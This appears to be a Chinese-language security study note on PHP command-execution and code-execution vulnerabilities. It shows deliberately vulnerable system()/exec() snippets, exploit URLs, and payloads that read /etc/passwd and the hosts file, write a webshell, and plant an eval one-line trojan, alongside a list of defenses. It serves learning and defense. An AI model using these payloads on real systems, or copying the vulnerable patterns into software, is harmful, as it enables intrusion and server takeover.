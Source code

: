 # 命令执行漏洞
## 漏洞原理
代码层过滤不严，应用程序直接或间接使用了动态执行命令的危险函数，并且这个函数的运行参数是可控的。</br>
涉及到的函数：system()、exec()、shell_exec()、passthru()、popen()、反引号

## 命令执行漏洞的利用
（1）system()函数典型代码，及利用</br>
system.php文件代码内容：
```php
<?php
if(isset($_GET[‘cmd’])){
         echo “<pre>”;
         system($_GET[‘cmd’]);
}
?>
```
利用方式：提交URL，并且构造想输入的命令到参数里面。</br>
URL：http://192.168.11.11/system.php?cmd=ipconfig</br>
（2）exec()函数典型代码及利用</br>
exec.php文件代码内容：</br>
```php
<?php
if(isset($_GET[‘cmd’])){
         echo “<pre>”;
         print exec($_GET[‘cmd’]);
}
?>
```
利用方式：提交URL，并且构造想输入的命令到参数里面。</br>
URL：http://192.168.11.11/exec.php?cmd=whoami</br>
（3）查看系统文件</br>
payload：
```
?cmd=type c:\windows\system32\drivers\etc\hosts      (查看系统hosts文件)
```
（4）写文件</br>
payload：
```
?cmd=echo “<?php phpinfo();?>” > c:\phpStudy\WWW\Command\shell.php
```
页面如果没有报错，说明写文件成功；再去访问shell.php文件，另外同样可以写入一句话木马。</br>
（5）其他命令执行的危险函数利用方式都差不多，均是利用参数过滤不严格，构造可控的命令内容到危险函数中去执行，最后达到攻击目的。</br>
（6）Windows和Linux中多命令执行的语法如下：</br>
![image](https://github.com/n4ttt/Sec-Note/assets/32692640/ee0ea053-5721-4d62-ba39-dc9e2d448c6a)

## 命令执行漏洞的危害
（1）继承web服务器程序权限（web用户权限），去执行系统命令</br>
（2）继承web服务器权限，读写文件</br>
（3）反弹shell</br>
（4）控制整个网站</br>
（5）控制整个服务器

## 命令执行漏洞的防御
（1）尽量少使用执行命令的函数或者禁用disable_functions；</br>
（2）在进入执行命令的函数之前，对参数进行过滤，对敏感字符进行转义；</br>
（3）参数值尽量使用引号包括，并且在拼接前调用addslashes进行转义。

# 代码执行漏洞
## 漏洞原理
应用程序在调用一些能够将字符串转换为代码的函数（如PHP中的eval）时，没有考虑用户是否控制这个字符串，将造成代码执行漏洞。</br>
大部分都是根据源代码判断代码执行漏洞。</br>
代码执行相关危险函数：</br>
（1）PHP: eval、assert、preg_replace()、+/e模式（PHP版本<5.5.0）</br>
（2）Javascript: eval</br>
（3）Vbscript：Execute、Eval</br>
（4）Python: exec</br>
（5）Java: Java中没有php中eval函数这种直接可以将字符串转化为代码执行的函数，但是有反射机制，并且有各种基于反射机制的表达式引擎，如：OGNL、SpEL、MVEL等，这些都能造成代码执行漏洞。

## 代码执行漏洞的利用
（1）一句话木马
```
${@eval($_POST[1])}
```
（2）获取当前工作路径
```
${exit(print(getcwd()))}
```
使用菜刀
（3）读文件
```
${exit(var_dump(file_get_contents($_POST[f])))}
f=/etc/passwd
```
使用post提交数值 f=/etc/passwd
（4）写webshell
```
${exit(var_dump(file_put_contents($_POST[f], $_POST[d])))}
f=1.php&d=1111111
```
同样使用post

## 代码执行漏洞的防御
（1）对于eval()函数一定要保证用户不能轻易接触eval参数或者用正则严格判断输入的数据格式。</br>
（2）对于字符串一定要使用单引号包裹可控代码，并且插入前进行addslashes</br>
（3）对于preg_replace放弃使用e修饰符.如果必须要用e修饰符，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹。
